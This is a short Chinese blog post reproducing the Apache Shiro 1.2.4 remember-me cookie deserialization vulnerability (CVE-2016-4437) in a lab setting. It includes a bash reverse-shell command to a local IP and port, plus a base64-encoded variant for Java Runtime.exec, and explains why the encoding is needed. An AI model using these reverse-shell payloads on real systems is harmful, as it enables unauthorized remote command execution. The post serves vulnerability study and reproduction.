

# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437） - 御用闲人 - 博客园

> 原文：[`www.cnblogs.com/yyxianren/p/12450209.html`](https://www.cnblogs.com/yyxianren/p/12450209.html)

Apache Shiro 是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro 框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4 及以前版本中，加密的用户信息序列化后存储在名为 remember-me 的 Cookie 中。攻击者可以使用 Shiro 的默认密钥伪造用户 Cookie，触发 Java 反序列化漏洞，进而在目标机器上执行任意命令。

**漏洞复现**

1、nc 开启监听端口


 2、编写反弹 shell

```
bash -i >& /dev/tcp/192.168.0.14/5678 0>&1
```

3、Java Runtime 配合 bash 编码（[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)）



```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTQvNTY3OCAwPiYx}|{base64,-d}|{bash,-i}
```

4、使用 POC 执行反弹脚本


5、shell 成功反弹


** 注：为什么要对反弹 shell 进行编码？**

在 exec()函数中，">"管道符是没有意义的，会被解析为其他的意义，而我们的反弹 shell 命令中又必须使用，所以需要编码。

另外，StringTokenizer 类会破坏其中包含空格的参数，该类将命令字符串按空格分隔。诸如此类的东西 ls "My Directory"将被解释为 ls '"My' 'Directory"'